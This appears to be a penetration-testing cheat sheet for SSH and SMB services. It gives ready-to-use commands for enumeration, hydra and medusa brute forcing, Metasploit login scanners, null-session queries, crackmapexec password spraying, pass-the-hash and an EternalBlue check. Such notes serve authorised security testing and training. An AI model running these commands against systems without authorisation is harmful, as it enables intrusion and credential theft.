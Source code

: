 ### 🔒 SSH (22)

#### Enumeration
```bash
# SSH version and algorithm enumeration
nmap --script ssh2-enum-algos,ssh-hostkey -p 22 <target>
ssh-audit <target>

# User enumeration
enum4linux -U <target>
```

#### Attack Methods
```bash
# Brute force attacks
hydra -L users.txt -P passwords.txt ssh://<target>
medusa -h <target> -U users.txt -P passwords.txt -M ssh

# Key-based attacks (if keys found)
ssh -i private_key user@<target>
```

#### Metasploit
```ruby
use auxiliary/scanner/ssh/ssh_login
use auxiliary/scanner/ssh/ssh_enumusers
use auxiliary/scanner/ssh/ssh_version
```

### 📁 SMB/NetBIOS (139, 445)

#### Comprehensive Enumeration
```bash
# SMB version and shares
smbclient -L //<target> -N
enum4linux -a <target>
smbmap -H <target>

# Null session enumeration
rpcclient -U "" -N <target>
> enumdomusers
> enumdomgroups
> queryuser <username>

# Advanced enumeration
crackmapexec smb <target>
crackmapexec smb <target> --shares
crackmapexec smb <target> -u '' -p '' --shares
```

#### Attack Techniques
```bash
# EternalBlue (MS17-010)
# Check vulnerability first
nmap --script smb-vuln-ms17-010 -p 445 <target>

# Password spraying
crackmapexec smb <target> -u users.txt -p 'Password123!' --continue-on-success

# Pass-the-hash attacks (post-exploitation)
crackmapexec smb <target> -u administrator -H <ntlm_hash>
```
